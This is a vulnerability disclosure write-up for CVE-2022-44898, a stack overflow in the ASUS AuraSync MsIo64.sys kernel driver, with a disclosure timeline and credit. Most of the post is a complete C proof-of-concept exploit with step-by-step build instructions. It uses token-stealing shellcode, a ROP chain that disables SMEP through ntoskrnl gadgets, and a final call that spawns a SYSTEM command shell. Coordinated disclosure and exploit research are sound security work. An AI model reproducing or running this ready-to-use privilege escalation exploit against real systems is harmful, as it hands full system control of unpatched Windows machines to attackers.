 ```yaml
---
title : "CVE-2022-44898: ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation"
excerpt: "CVE-2022-44898"

categories:
    - "0-day"
tags:
    - [Mitre, ASUS]
---
```


## 0x01: Details

- Title : CVE-2022-44898: ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation
- CVE ID : CVE-2022-44898
- Advisory Published: 2022/08/10
- Advisory URL : [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)
- Vender URL : [https://www.asus.com/](https://www.asus.com/)

## 0x02: Test Environment

OS : windows 10 pro 64-bit 21H2 (build 19044.1826)

ASUS AuraSync : 1.07.79_V2.2

## 0x03: Vulerability details

The kernel driver MsIo64.sys is included in Asus AuraSync 1.07.79. A stack-based buffer overflow exists in this kernel driver IOCTL dispatch function.

## 0x04: Techincal description

When you download ASUS AURA SYNC software, MsIo64.sys driver is installed together. In the IOCTL code of this driver, the memmove function is called at 0x80102040, but there is no path check at this time, so a stack based buffer overflow vulnerability may occur.

```c
__int64 __fastcall sub_113F0(__int64 a1, IRP *a2) {
	ULONG_PTR Src[2]; // [rsp+30h] [rbp-48h]
	...
	switch ( LowPart )
	{
		case 0x80102040:
		  DbgPrint("IOCTL_MSIO_MAPPHYSTOLIN");
		  if ( !(_DWORD)Options )
		    goto LABEL_9;
		  memmove(Src, MasterIrp, Options);
		  v11 = sub_FFFFF80375F91090((PHYSICAL_ADDRESS)Src[1], Src[0], &BaseAddress, &Handle, &Object);
		  if ( v11 >= 0 )
		  {
		    memmove(MasterIrp, Src, Options);
		    a2->IoStatus.Information = Options;
		  }
		  a2->IoStatus.Status = v11;
		  break;
	...
}
```

MasterIrp is lpInBuffer as an argument when calling the DeviceIoControl function. Since lpInBuffer is moved to Src, and the length is not checked, a rop attack is possible by changing the dispatch function return address.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <string>
#include <Windows.h>
#include <Psapi.h>
#define IOCTL_CODE 0x80102040

BYTE shellcode_[] =
"\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, gs:[188h]       ; _ETHREAD
"\x4C\x8B\x82\x20\x02\x00\x00"              // mov r8, [rdx + 220h]     ; _EPROCESS
"\x4D\x8B\x88\x48\x04\x00\x00"              // mov r9, [r8 + 448h]      ; ActiveProcessLinks
"\x49\x8B\x09"                              // mov rcx, [r9]            

// GetProcessByPid
"\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; UniqueProcessId
"\x48\x83\xFA\x04"                          // cmp rdx, 4               ; PID 4 SYSTEM process
"\x74\x05"                                  // jz found_system          ; SYSTEM token
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; _LIST_ENTRY Flink
"\xEB\xF1"                                  // jmp find_system_proc     ; While
// FoundGetProcess

"\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Get Token
"\x24\xF0"                                  // and al, 0f0h             
// FindProcess

"\x48\x8B\x51\xF8"                          // mov rdx, [rcx-8]         ; UniqueProcessId
"\x48\x81\xFA\x00\x00\x00\x00"              // cmp rdx, 0d54h           ; if UniqueProcessId == CurrentPid
"\x74\x05"                                  // jz found_cmd             ; True - jump FoundProcess
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; False - next entry
"\xEB\xEE"                                  // jmp find_cmd             ; jump FindProcess
// FoundProcess

"\x48\x89\x41\x70"                          // mov [rcx+70h], rax       ; Overwrite SYSTEM token
"\x48\x31\xc0"                              // xor rax rax 
"\x48\x31\xc9"                              // xor rcx rcx              
"\x48\x31\xf6"                              // xor rsi,rsi
"\x48\x31\xff"                              // xor rdi, rdi
"\x4D\x31\xC0"                              // xor r8, r8
"\x48\xc7\xc1\xf8\x06\x35\x00"              // mov rcx, 0x3506f8        ; original cr4
"\xc3";                                     // ret

LPVOID GetBaseAddr(const char* drvname) {
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int nDrivers, i = 0;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        char szDrivers[1024];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (strcmp(szDrivers, drvname) == 0) {
                    return drivers[i];
                }
            }
        }
    }
    return 0;
}

void exploit() {
    DWORD pid = GetCurrentProcessId();
    INT64 ntoskrnl = (INT64)GetBaseAddr("ntoskrnl.exe");
    HANDLE hDevice;

    hDevice = CreateFileA("\\\\.\\MsIo", FILE_READ_ACCESS | FILE_WRITE_ACCESS, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error device open %d\n", GetLastError());
        exit(1);
    }
    printf("[+] Success device open\n");

    // Allocate executable memory
    BYTE* shellcode = (BYTE*)VirtualAlloc(NULL, sizeof(shellcode_), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode, shellcode_, sizeof(shellcode_));
    memcpy(shellcode + 54, &pid, sizeof(pid));              // Change the pid of the shellcode

    INT64 disable_SMEP = 0x250ef8;                          // cr4 value, disable SMEP
    INT64 enable_SMEP = 0x350ef8;                           // cr4 value, enable SMEP
    INT64 pop_rcx = ntoskrnl + 0x314f03;                    // pop rcx; ret
    INT64 mov_cr4 = ntoskrnl + 0x9a4217;                    // mov cr4, rcx; ret
    INT64 wbinvd = ntoskrnl + 0x37fb50;                     // wbinvd; ret
    INT64 ret = pop_rcx + 1;                                // ret

    printf("[+] SMEP disabled\n");

    BYTE input[136] = { 0, };
    memset(input, 0x90, 72);                        // dummy
    memcpy(input + 72, &pop_rcx, 8);                // pop rcx
    memcpy(input + 80, &disable_SMEP, 8);           // disable SMEP value
    memcpy(input + 88, &mov_cr4, 8);                // mov cr4, rcx
    memcpy(input + 96, &wbinvd, 8);                 // wbinvd; ret
    memcpy(input + 104, &shellcode, 8);             // shellcode
    memcpy(input + 112, &mov_cr4, 8);               // mov cr4, rcx 
    memcpy(input + 120, &ret, 8);                   // restore rsp(stack)
    memcpy(input + 128, &ret, 8);                   // restore rsp(stack)

    DWORD temp;
    if (!DeviceIoControl(hDevice, IOCTL_CODE, input, sizeof(input), NULL, 0, &temp, NULL)) {
        printf("[-] Failed DeviceIoControl %d\n", GetLastError());
        exit(1);
    }

    printf("[+] SMEP enabled\n");
    printf("[+] Sucesss execute shellcode\n");
    printf("[+] Success Get SYSTEM shell\n");
    printf("\n\n");
    system("cmd");
}

int main() {
    exploit();
    return 0;
}
```

1. Use Visual Studio 2019
2. Compile with x64 release mode
3. Execute the compiled file

## 0x06: Affected Products

This vulnerability affects the following product:

- ASUS AuraSync ≤ 1.07.79_V2.2

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/07/28 : First contact via E-Mail ([security@asus.com](mailto:security@asus.com)) to negotiate a security channel;
- 2022/08/01 : I received a call from Asus Security to analyze the vulnerability.
- 2022/08/09 : I was provided with a patched version of the vulnerability.
- 2022/09/18 : My name is inducted into the Asus Hall of Fame.
- 2022/10/11 : The latest version update notice has been posted in the ASUS Latest security updates.
- 2022/11/01 : Request a CVE id via MITRE.
- 2023/02/07 : Received a call from MITRE for CVE-2022-44898.

## 0x09: Reference

- [https://www.asus.com/campaign/aura/us/download.php](https://www.asus.com/campaign/aura/us/download.php)
- [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)